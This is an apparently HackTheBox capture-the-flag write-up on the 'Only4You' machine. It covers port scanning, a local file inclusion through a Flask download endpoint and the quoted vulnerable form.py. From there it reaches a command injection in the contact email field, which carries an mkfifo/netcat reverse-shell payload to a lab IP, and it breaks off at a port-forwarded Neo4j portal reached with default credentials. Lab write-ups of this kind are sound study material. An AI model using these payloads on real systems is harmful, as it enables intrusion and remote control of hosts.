## RUSTCAN:

```Bash
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e883e0a9fd43df38198aaa35438411ec (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDX7r34pmJ6U9KrHg0/WDdrofcOXqTr13Iix+3D5ChuYwY2fmqIBlfuDo0Cz0xLnb/jaT3ODuDtmAih6unQluWw3RAf03l/tHxXfvXlWBE3I7uDu+roHQM7+hyShn+559JweJlofiYKHjaErMp33DI22BjviMrCGabALgWALCwjqaV7Dt6ogSllj+09trFFwr2xzzrqhQVMdUdljle99R41Hzle7QTl4maonlUAdd2Ok41ACIu/N2G/iE61snOmAzYXGE8X6/7eqynhkC4AaWgV8h0CwLeCCMj4giBgOo6EvyJCBgoMp/wH/90U477WiJQZrjO9vgrh2/cjLDDowpKJDrDIcDWdh0aE42JVAWuu7IDrv0oKBLGlyznE1eZsX2u1FH8EGYXkl58GrmFbyIT83HsXjF1+rapAUtG0Zi9JskF/DPy5+1HDWJShfwhLsfqMuuyEdotL4Vzw8ZWCIQ4TVXMUwFfVkvf410tIFYEUaVk5f9pVVfYvQsCULQb+/uc=
|   256 83f235229b03860c16cfb3fa9f5acd08 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAz/tMC3s/5jKIZRgBD078k7/6DY8NBXEE8ytGQd9DjIIvZdSpwyOzeLABxydMR79kDrMyX+vTP0VY5132jMo5w=
|   256 445f7aa377690a77789b04e09f11db80 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOqatISwZi/EOVbwqfFbhx22EEv6f+8YgmQFknTvg0wr
80/tcp   open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://only4you.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
4444/tcp open  http    syn-ack ttl 63 Gunicorn 20.0.4
| http-title: Login
|_Requested resource was /login
|_http-server-header: gunicorn/20.0.4
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 5.0 (96%), Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%)
No exact OS matches for host (test conditions non-ideal).
```

* * *

## SSH:

So far SSH version is pretty new and no known exploits are available out in the wild. Bruteforce is not contemplated in this challenge so we will have to come back when we have a set of proper credentials to login.

* * *

## Port 4444:

So far based on a first analysis seem like the port 4444 is hosting a login page of the same website hosted on the port 80(http).


Checking manually we can't find anything hidden into HTML source code itself, running Dirsearch didn't show up any extra hidden Web directories by fuzzing them manually:



Same applies to possible subdomains, where I stopped the fuzzing cause it was too slow and most likely won't show up anything.



And trying to login manually we got login error off course:



Now the last thing we could try is SQLi and see if SQLMap could help us to get something out of it but show story, NO:



I tried some manual enumeration but nothing came out; tried even NOSQL injection but nada get always error 400. I guess we have to come back later when we find some credentials that we can use instead.

EDIT: after my realization that I've mistyped during FFUF subdomain enumeration I tried again but apparently even by shipping the right commando it didn't show any more subdomains on port 4444.

* * *

## HTTP:

I think we have to enumerate as usual the HTTP page and find some kind of credentials that then can be used on that login page we've checked just before.

I would like to start easy with some Web directories fuzzing:

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# dirsearch -u 'http://only4you.htb'

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/aleksandar/Downloads/reports/http_only4you.htb/_23-04-24_10-45-39.txt

Target: http://only4you.htb/

[10:45:39] Starting:

Task Completed
```

Ok no web directories but what about subdomains?

```Bash
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u 'http://only4you.htb/' -H 'Host: FUZZ.only4you.htb' -fl 8

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://only4you.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.only4you.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response lines: 8
________________________________________________

[Status: 200, Size: 2191, Words: 370, Lines: 52, Duration: 39ms]
    * FUZZ: beta

:: Progress: [19966/19966] :: Job [1/1] :: 1226 req/sec :: Duration: [0:00:18] :: Errors: 0 ::
```

And seems like there is a subdomain, seems like a  thrown i misstypo before so actually there is a subdomain here...

Checking manually for some old comments or code snippets in the HTML source code didn't snow anything either, but we can see the team so we can for sure guess some usernames here:

`Walter White`

`Sarah Jhonson`

`William Anderson`

`Amanda Jepson`

So far nothing special came out, haven't tried for XSS or similar in the Contact field but will move forward on the Beta subdomain.

* * *

## HTTP - Beta.only4you.htb:

Seems like this site is much more interesting so far and we may be able to exploit it somehow:



Clicking on source code we can download the Flask applications source code and we can see that there are 2 main function one is resize and other is convert. I tried to upload a sample jpg file both i Resize and Convert function but after upload website hangs and nothing happens I guess I have to check the Flask source code thru and see what can I find, from forum people seems pointing towards LFI.

Now here at first sign it didn't catch my attention but then I've seen a hidden function "/list" in the Flask application under app.py:

```Python
@app.route('/list', methods=['GET'])
def list():
    return render_template('list.html')
```

Surfing to the page we can download pictures in several formats and sizes:


And conseuently catching the traffic with burpsuite and trying to download a picture we have what I call a possible LFI:



Editing the image get field get's us a LFI result:



Now from here we can see several users in the system: Root, Neo4j, Dev and John.

Now we have to grab some information so we can see what can we see more? So far seems like both cmdline and selfenviron didn't worked through so goingback on the forum and checking for tips people tipsed to check nginx default configuration files:

```Bash
user www-data;
worker_processes auto;
pid /run/nginx.pid;
include /etc/nginx/modules-enabled/*.conf;

events {
    worker_connections 768;
    # multi_accept on;
}

http {

    ##
    # Basic Settings
    ##

    sendfile on;
    tcp_nopush on;
    tcp_nodelay on;
    keepalive_timeout 65;
    types_hash_max_size 2048;
    # server_tokens off;

    # server_names_hash_bucket_size 64;
    # server_name_in_redirect off;

    include /etc/nginx/mime.types;
    default_type application/octet-stream;

    ##
    # SSL Settings
    ##

    ssl_protocols TLSv1 TLSv1.1 TLSv1.2 TLSv1.3; # Dropping SSLv3, ref: POODLE
    ssl_prefer_server_ciphers on;

    ##
    # Logging Settings
    ##

    access_log /var/log/nginx/access.log;
    error_log /var/log/nginx/error.log;

    ##
    # Gzip Settings
    ##

    gzip on;

    # gzip_vary on;
    # gzip_proxied any;
    # gzip_comp_level 6;
    # gzip_buffers 16 8k;
    # gzip_http_version 1.1;
    # gzip_types text/plain text/css application/json application/javascript text/xml application/xml application/xml+rss text/javascript;

    ##
    # Virtual Host Configs
    ##

    include /etc/nginx/conf.d/*.conf;
    include /etc/nginx/sites-enabled/*;
}


#mail {
#	# See sample authentication script at:
#	# http://wiki.nginx.org/ImapAuthenticateWithApachePhpScript
# 
#	# auth_http localhost/auth.php;
#	# pop3_capabilities "TOP" "USER";
#	# imap_capabilities "IMAP4rev1" "UIDPLUS";
# 
#	server {
#		listen     localhost:110;
#		protocol   pop3;
#		proxy      on;
#	}
# 
#	server {
#		listen     localhost:143;
#		protocol   imap;
#		proxy      on;
#	}
#}
```

Then payling around and checking for default nginx path: https://stackoverflow.com/questions/10674867/nginx-default-public-www-location

We can see the default website path:



What I was missing here was to analyze those poxy_pass paths, we had the source code for beta.only4you but not for only4you.htb and knowing that is under var/www we could find it!

Asking for /var/www/html/only4you.htb/app.py:

```Python
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/beta]
└─# curl -X POST beta.only4you.htb/download --data 'image=/var/www/only4you.htb/app.py'
from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid

app = Flask(__name__)
app.secret_key = uuid.uuid4().hex

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        email = request.form['email']
        subject = request.form['subject']
        message = request.form['message']
        ip = request.remote_addr

        status = sendmessage(email, subject, message, ip)
        if status == 0:
            flash('Something went wrong!', 'danger')
        elif status == 1:
            flash('You are not authorized!', 'danger')
        else:
            flash('Your message was successfuly sent! We will reply as soon as possible.', 'success')
        return redirect('/#contact')
    else:
        return render_template('index.html')

@app.errorhandler(404)
def page_not_found(error):
    return render_template('404.html'), 404

@app.errorhandler(500)
def server_errorerror(error):
    return render_template('500.html'), 500

@app.errorhandler(400)
def bad_request(error):
    return render_template('400.html'), 400

@app.errorhandler(405)
def method_not_allowed(error):
    return render_template('405.html'), 405

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=80, debug=False)
```

From this code we can see that Contact function that is supposed to send in some emails is importing (**form**) so we could guess that it's should be a form.py into code:

```Python
└─# curl -X POST beta.only4you.htb/download --data 'image=/var/www/only4you.htb/form.py'
import smtplib, re
from email.message import EmailMessage
from subprocess import PIPE, run
import ipaddress

def issecure(email, ip):
        if not re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email):
                return 0
        else:
                domain = email.split("@", 1)[1]
                result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
                output = result.stdout.decode('utf-8')
                if "v=spf1" not in output:
                        return 1
                else:
                        domains = []
                        ips = []
                        if "include:" in output:
                                dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
                                dms.pop(0)
                                for domain in dms:
                                        domains.append(domain)
                                while True:
                                        for domain in domains:
                                                result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
                                                output = result.stdout.decode('utf-8')
                                                if "include:" in output:
                                                        dms = ''.join(re.findall(r"include:.*\.[A-Z|a-z]{2,}", output)).split("include:")
                                                        domains.clear()
                                                        for domain in dms:
                                                                domains.append(domain)
                                                elif "ip4:" in output:
                                                        ipaddresses = ''.join(re.findall(r"ip4:+[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+[/]?[0-9]{2}", output)).split("ip4:")
                                                        ipaddresses.pop(0)
                                                        for i in ipaddresses:
                                                                ips.append(i)
                                                else:
                                                        pass
                                        break
                        elif "ip4" in output:
                                ipaddresses = ''.join(re.findall(r"ip4:+[0-9]+\.[0-9]+\.[0-9]+\.[0-9]+[/]?[0-9]{2}", output)).split("ip4:")
                                ipaddresses.pop(0)
                                for i in ipaddresses:
                                        ips.append(i)
                        else:
                                return 1
                for i in ips:
                        if ip == i:
                                return 2
                        elif ipaddress.ip_address(ip) in ipaddress.ip_network(i):
                                return 2
                        else:
                                return 1

def sendmessage(email, subject, message, ip):
        status = issecure(email, ip)
        if status == 2:
                msg = EmailMessage()
                msg['From'] = f'{email}'
                msg['To'] = 'info@only4you.htb'
                msg['Subject'] = f'{subject}'
                msg['Message'] = f'{message}'

                smtp = smtplib.SMTP(host='localhost', port=25)
                smtp.send_message(msg)
                smtp.quit()
                return status
        elif status == 1:
                return status
        else:
                return status
```

Ok seems like we have to exploit this send email function to get a working RCE... Going back to app.py what is important is this part:



Basically if we open the mainpage as GET request it will render the index.html but if we send a POST request it will instead send a email. Now I tried to send an email from the webpage but it was spinning forever so I guess we have to send a Burprequest with some kind of Python payload so we can get a shell!

EDIT: eventually i got an answer back:



I will try to send a dummy mail and grab the result in Burp:


That run(dig XXXXXX) should be exploided to get a NC... So if I setup a NC listener and generate a Python3 revshell that is already URL encoded:



And concatenating commands into email field it should escape and execute our python code instead. After several try and catch both with NC, Bash and python revshell where none of them worked out the one that worked was:

```Bash
yovecio@test.htb;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc  10.10.14.8 5555 >/tmp/f
```

And sending into email field gave us our first RCE:



## 

* * *

## Road to Local.txt:

So far we are logged in as www-data and we have 2 home folders where our first flag should be:

```Bash
www-data@only4you:/home$ ls -al
ls -al
total 16
drwxr-xr-x  4 root root 4096 Mar 30 11:51 .
drwxr-xr-x 17 root root 4096 Mar 30 11:51 ..
drwxr-x---  5 dev  dev  4096 Apr 23 01:15 dev
drwxr-x---  5 john john 4096 Apr 24 07:54 john
```

But we don't have any access so I guess we have to run Linpeas and check if we can find dev or Johns credentials somewhere =)

Ok seems like NC hangs everytime I try to upload Linpeas to the machine so reading tips on the forum I will try some manual enumeration, guess is something about that neo4j to be exploited.

Checking for listening tcp ports:

```Bash
www-data@only4you:~$ ss -ltnu
ss -ltnu
Netid State  Recv-Q Send-Q      Local Address:Port    Peer Address:Port Process
udp   UNCONN 0      0           127.0.0.53%lo:53           0.0.0.0:*
udp   UNCONN 0      0                 0.0.0.0:68           0.0.0.0:*
tcp   LISTEN 0      4096            127.0.0.1:3000         0.0.0.0:*
tcp   LISTEN 0      5                 0.0.0.0:4444         0.0.0.0:*
tcp   LISTEN 0      2048            127.0.0.1:8001         0.0.0.0:*
tcp   LISTEN 0      70              127.0.0.1:33060        0.0.0.0:*
tcp   LISTEN 0      151             127.0.0.1:3306         0.0.0.0:*
tcp   LISTEN 0      511               0.0.0.0:80           0.0.0.0:*
tcp   LISTEN 0      4096        127.0.0.53%lo:53           0.0.0.0:*
tcp   LISTEN 0      128               0.0.0.0:22           0.0.0.0:*
tcp   LISTEN 0      4096   [::ffff:127.0.0.1]:7687               *:*
tcp   LISTEN 0      50     [::ffff:127.0.0.1]:7474               *:*
tcp   LISTEN 0      128                  [::]:22              [::]:*
```

* * *

Now here everyone is tipsing about port 8001 so I will upload a copy of chisel and foward the port to me!



Now that I have fowareded the port 8001 should be able to reach the website from my machine directly on localhost:8001:


Good seems working  and here people tipsed to use defaul credentials for neo4j which are neo4j:neo4j

EDIT: the day after I came back since yesterday was time to leave the office and seems like port 4444 is not available anymore, guess then it was a leftover from some other users so now I have only port 80 and 22.

I guess now it makes sense to chisel port 8001 to ourself instead...



And following a screen of listening ports on the guest os:



Now we can do what we were trying to do yesterday with chisel and forward port 8001 to ourself instead!





And now we should be able to reach it again from localhost:8001:


Good now that everything is fixed we can try to continue from where we left yesterday... People pointed to use very standard credentialis and I tought it was about standard neo4j credentials but I was wrong apparently are standard credentials...

Then trying (admin : admin) gave me access to the portal:


Then here poking around it came out from to do lists that sever have been migrated to Neo4j:

